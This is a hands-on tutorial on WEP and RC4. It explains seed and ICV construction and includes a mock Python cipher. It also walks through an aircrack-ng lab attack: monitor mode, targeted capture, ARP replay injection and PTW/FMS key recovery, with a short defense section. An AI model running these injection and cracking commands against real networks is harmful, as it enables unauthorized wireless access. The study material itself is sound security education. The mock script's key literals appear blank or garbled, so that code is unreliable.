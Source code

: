 # Chain #18: WEP & RC4 — seed, ICV, mock cipher, and practical attacks

## Goal & Scope

Short, hands‑on introduction to WEP and RC4:

- WEP primitives (IV, key sizes, RC4, ICV/CRC32).
- How WEP builds an RC4 seed (IV + key) and encrypts a frame.
- CRC32 / ICV generation and a runnable `mockcipher.py` that demonstrates the full flow.
- Practical attack overview: IV collection, ARP replay, FMS / PTW, and KoreK Chop‑Chop ideas.
- Canonical lab commands (explained) and remediation notes.

---

## Summary (one‑page)

WEP uses a 24‑bit IV concatenated with a per‑device secret key (commonly 40‑bit or 104‑bit) as the RC4 seed. RC4 produces a keystream which XORs with `plaintext || ICV` (ICV = CRC32(plaintext)). The IV is transmitted in clear, and its small size leads to IV reuse; attackers exploit this with statistical (FMS/PTW) or packet‑building attacks (ARP replay) to recover keys quickly.

---

## Key details & canonical commands (explained)

**Canonical dummies used below:**

- Managed Interface: `wlan0`
- Monitor Interface: `wlan0mon`
- AP BSSID: `AA:BB:CC:DD:EE:FF`
- Client MAC: `11:22:33:44:55:66`
- Channel: 6
- Capture Filename: `WPA-01.cap`

### 1) Put interface into monitor mode

```
sudo airmon-ng check kill
```

- Kills interfering services (NetworkManager, `wpa_supplicant`).

```
sudo airmon-ng start wlan0
```

- Starts monitor mode; typical monitor interface is `wlan0mon`.

### 2) Capture only the target AP on channel 6 and write captures

```
airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF -w WPA
```

- `-c 6`: lock channel to 6.    
- `--bssid`: focus on the AP.
- `-w WPA`: write capture files with prefix `WPA` (creates e.g. `WPA-01.cap`, `WPA-01.ivs`).

### 3) Accelerate IV collection with ARP replay (packet building)

```
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon
```

- `-3`: ARP replay mode — injects forged ARP requests to provoke predictable responses and many IVs.
- `-b`: BSSID of AP. 
- `-h`: source MAC used in forged frames.

**Notes:** requires injection‑capable adapter and may be blocked by AP/client filters. Produces noise.

### 4) Attempt key recovery from IVs

```
aircrack-ng -z -b AA:BB:CC:DD:EE:FF WPA-01.ivs
```

- `-z`: use IV statistical methods (PTW/FMS) on `.ivs` files.
- If cap file used: `aircrack-ng WPA-01.cap -b AA:BB:CC:DD:EE:FF`.

**Interpretation:** aircrack-ng will display candidate keys when the statistical attack succeeds.

---

## Mock cipher: seed + CRC32 + RC4 (runnable)

This mock combines your SeedGen + CRC32 examples into a single script that demonstrates how the IV and key form the RC4 seed, how ICV is created, and how final frame = IV || ciphertext is produced. Save as mockcipher.py and run python3 mockcipher.py.

```python
# mockcipher.py
from Crypto.Random import get_random_bytes
from Crypto.Cipher import ARC4
import zlib

packetplaintext = b'Something Sensitive'
crc32 = zlib.crc32(packetplaintext)
IV = get_random_bytes(3)
key = b''          # 40-bit
Seed64 = IV + key
key104 = b'	

'  # 104-bit
Seed128 = IV + key104
keystream = ARC4.new(Seed64)
keystreamB = ARC4.new(Seed128)
crc32byte = crc32.to_bytes(4, 'big')
ICVMessage = packetplaintext + crc32byte
msg = keystream.encrypt(ICVMessage)
msgB = keystreamB.encrypt(ICVMessage)
finalmsg = IV + msg
finalmsgb = IV + msgB
print('CRC32 Checksum:', crc32)
print('Initialization Vector:', IV)
print('ICV Message:', ICVMessage)
print('Final Message 64-bit Seed:', finalmsg)
```

---

## Short attack taxonomy & when to use each method

- **FMS**: original statistical attack exploiting biased RC4 outputs for weak IVs. Needs many IVs.
- **PTW**: improved statistical attack requiring fewer IVs — preferred when IVs are available.
- **KoreK Chop‑Chop**: per‑packet attack that uses CRC32 behavior to iteratively recover plaintext bytes by observing accept/reject behavior.
- **Packet‑building (ARP replay / fragmentation)**: used to generate IVs quickly when a client responds to forged frames.
- **Per‑packet brute force**: generally impractical except for very small keyspaces/packets.

---

## Defense (short)

- Remove WEP support; migrate to WPA2/WPA3.
- Disable legacy modes on APs when possible.
- Monitor for injection traffic and ARP replay patterns.